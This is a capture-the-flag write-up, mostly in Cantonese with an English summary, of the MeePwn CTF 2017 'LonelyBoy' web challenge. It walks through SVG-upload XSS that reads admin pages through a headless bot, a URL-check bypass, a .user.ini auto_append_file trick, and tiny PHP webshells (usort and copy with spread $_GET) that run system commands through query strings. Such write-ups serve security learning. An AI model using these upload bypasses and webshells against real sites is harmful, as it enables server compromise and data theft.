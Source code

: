 # MeePwn CTF 2017: LonelyBoy

### (crypto, 1000 points, 1 team solved)

說明
>I saw the website of a lonely boy out there, it looks like he wants to be cheered up, can you help him?
>
> Flag is in /
>
> Remote: 188.166.242.140

奇怪的通知

📢 Notice: We use phantomjs to evaluate your submitted url

孤獨的提示

💡 Hint 1: Wow .SaVaGe , nobody care about him... please come to tsu home, tsu want to make friend at his HOME!

💡 Hint 2: POST is so complex, better go to his HOME with GET

💡 Hint 3: Hey FRIEND! Information Gathering is important :)

💡 Hint 4: Well, its not a common php, another php :D

💡 Hint 5: u.....sort! sort! sort!, splat! splat! splat!.... some animals voice around his house..., try to rce :D


## 題解
呢題 No one plays. 真係夠晒 Lonely. 一開始個 Flag is in / 真係好誤導. 整到咁多 part 又係老點.

求其註冊登入之後有個位可以 upload 相. 

~~求其 upload 個 [1.jpg](http://static.zerochan.net/Ten.Count.full.1930214.jpg) 上去睇下結果話 file too large.~~

話說 upload 個扮係 jpg 既 txt 係會 block 9 你. 見到可以 upload svg 明眼人一睇就知係玩 XSS. 個 svg 你想寫乜都得.

隊個 Cookie stealer 冇反應. 之後我去 IRC 問個作者你個 bot 係咪壞輪左. 佢話好正常你再試下. 可能係個 bot 唔認 svg 係網頁.

因為佢有 check 個 file 是咪 from 佢個 website. 試下試下發現吊佢剩係 check 個 url 有冇 ht​tp://188.166.242.140/

即係 ht​tp://example.com/x.php?ht​tp://188.166.242.140/ 佢係識讀.

之後響自己個網度放個 iframe 連返去佢個網個 svg 又得. 

點解要搞咁多野連返去佢個網係因為有 CORS. 個 svg 響佢個網度就可以為所欲為 好似係

之後用個 xhr 讀下 admin login 狀態下 d page. 點知讀唔到. 唔知咩事. 

之後搞一大輪試下試下發現佢個 bot 成日 timeout. 所以我加個 loop 讀下我個網睇下佢幾時先 timeout.出事. 

點知佢唔識 timeout. 炸我 server 炸左半粒鐘. 我自己又硬膠膠唔 timeout. 佢又唔 timeout. 大家攬炒. 

我之後去 IRC 同佢話你個 bot 炸鳩緊我. 佢之後話 reset 左. 我再睇 log 發現佢係重 send 緊 request. 說好的 reset 呢.

大家睇到呢度係咪開始唔想睇呢. 之後我真係讀到 admin 狀態下既 files.php 啦. 點知條友仔半個 file 都冇 upload. 

之後睇返佢堆孤獨的提示. 佢果陣出到第一個提示 話咩 go HOME. 係咪去 /home 啊頂你你又話 Flag is in / 想點. 

之後發現個 homepage 叫 home.php. 讀下佢個 home.php 發現佢多左個咩 email_address_of_tsu_friend.

哇唔通你想玩 phantomjs 幫你 sql injection 定 mail(). 大佬真係隔山打牛. 

之後叫個 bot run ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=真email. 點知真係收唔到 email.

我去 IRC 問下條友 問佢你個 mail function 係咪壞能左. 佢叫我打返註冊用個 email 就算喎. 

頂你正常入個 username 算啦入乜鬼 email. 搞一大輪唔知點解變左做 friend. 之後多左個 upload box.

今次個 upload box 據聞可以 upload 任何野. 咁第一時間梗係 upload php. 吊啦 block 9 我. 咁 php 唔得試下 pht. 又唔能得. 

咁試下 phd. 得左. 但係 phd 係冇用既 (好似係). 因為 run 唔 lun 到. 

咁試下 upload .htaccess 加個 MIME type. 又 block 9 ht. 乜能都做唔到. 

之後打多過 20 個字又鬧我. 試試下打左個 Exec 響入面又話 Malicious! 吊啦. 

之後 **唔知點樣試到** .user.ini 可以加 d setting. 加個 auto_append_file=z 拿佢限 20 個字 auto_append_file=.svg 21個字. 吊佢.

因為你有 setting 冇 php 都冇能用. 然後 **唔知點解搵到** index.php 竟然係用 php. 

正常人應該用 index.htm 或者 index.html 啦. 又唔係要動用咩 server-side script. 

咁你 upload 多個 z 入面係 `<?=phpinfo();` 就有野睇.

---
呢段開始先仆街. 

佢個 upload 除左 block exec 之外重 block 好能多野. 咩 eval system passthru. 

試試下 include 冇事. 咁好正路 upload 返個 svg include 佢搞掂.

list 到個 / 入面有個 goodjobnowgetyoursfl4g 咁試下 cat 佢. 冇料到. 即係 directory.

之後想 list /goodjobnowgetyoursfl4g 果下先仆街. 無端端話 Malicious!

個作者響 IRC 話 block 漏 include 同 require. 吊你想點啊. 佢話之後會再出提示點玩喎. 你玩晒啦.

結果 on99 咁睇個 php manual 搵下 d 短名 function. 有個叫 dl 都唔知點能用. 

之後發現佢冇 block popen. 不過玩 popen 又要 reverse shell 好能煩.

---
搞下搞下之後佢出第五個提示話咩 usort splat. 吊又係用 d 濕鳩 callback. 咁用 usort 囉. 

至於 splat 係乜野? 佢係將個 array 爆做 argument 既奇怪 operator. 即係 python 入面 **kwargs d friend. 

因為你想用 querystring 塞野既話 你要用 $_GET[0], $_GET[x] 之類. 想塞兩舊就已經用好多字.

用 splat 就係 ...$_GET, 塞幾多都得. 最後個 file 係 `<?=usort(...$_GET);`

正常 usort 係會將 第一個 argument ($_GET[0]) 個 array 做 sorting. 如果有 callback 就係第 k 同 k+1 個 element 放去個 callback 度:

`usort(...$_GET)` ==> `$_GET[1]($_GET[0][0],$_GET[0][1]); $_GET[1]($_GET[0][1],$_GET[0][2]);` etc.

但係唔知做乜春佢個 server 係 `$_GET[1]($_GET[0][1],$_GET[0][0])`

結果要咁能樣 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=diu&1=print_r

先識 `print_r("diu",0)` (print_r 第二個 argument false 就會直接 echo 出黎. true 就儲去個 variable 度)

之後睇下 system 果堆 function. system 第二個 argument 要係個 variable reference 指返個 output. 

我響我個 server run `system("ls",0)` 係 run 唔能到既. 但係有朋友發現佢果度唔知點解 run 到.

之後就 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=cat%20/goodjobnowgetyoursfl4g/Yes_This_Is_What_You_Are_Looking_FoR_FlagGgGg&1=system

搞一大堆咁能辛苦終於解到.

##後記
佢個 usort 簡直係老點. 不知所謂. run `system("ls",0)` 就好似 run `0=1` 咁搞笑. usort 個 array 又好似調轉左咁.

做完之後發現有個 function 叫 copy 冇 block 到. 咁 `<?=copy(...$_GET);` 少佢一隻字添. 做多好多野添. 

例如 ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0.svg&0[1]=../yaoi.php

就會出 [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy) (真係 click 到架好似係)

---
# English version
I accidentially found this page and got the flag:

> [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy)

Just kidding.

In short it is "XSS read page + wtf + Webshell" 

<ol>
<li>XSS read page</li>
  <ul>
  <li>upload a file with javascript on the victim server to bypass CORS</li>
    <ul>
    <li>svg is perfect because other image format are checked</li>
    <li>the script includes logics to read home.php and send back to your server</li>
    <li>add some loops to read some pages to prevent the bot from timing out</li>
    </ul>
  <li>upload a page on your own server with <iframe src=that_svg_file> (instead of using <img> or directly query the svg file due to the bot issue)</li>
  <li>ask the bot to query the page with ?ht​tp://188.166.242.140/ at the end to bypass checking</li>
  </ul>

<li>wtf</li>
  <ul>
  <li>when you got the content of home.php, you found weird form with parameter email_address_of_tsu_friend</li>
  <li>ask the bot to query ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=your_email_account</li>
  <li>why you need to fill in your email account in the system? it is a feature maybe. </li>
  </ul>

<li>Webshell</li>
  <ul>
  <li>upload .user.ini with auto_append_file=whatever or auto_prepend_file=whatever. make whatever shorter.</li>
  <li>upload whatever with phpcode like &lt;?=phpinfo();, &lt;?=$_GET[0]('ls /');, &lt;?=usort(...$_GET); or &lt;?=copy(...$_GET);</li>
  <li>go to index.php and add some querystring according to your payload</li>
    <ul>
    <li>give ?0=system to &lt;?=$_GET[0]('ls /');</li>
    <li>give ?0[0]=0&0[1]=ls%20/&1=system to &lt;?=usort(...$_GET);</li>
    </ul>
  <li>do whatever you like</li>
  </ul>
 </ol>
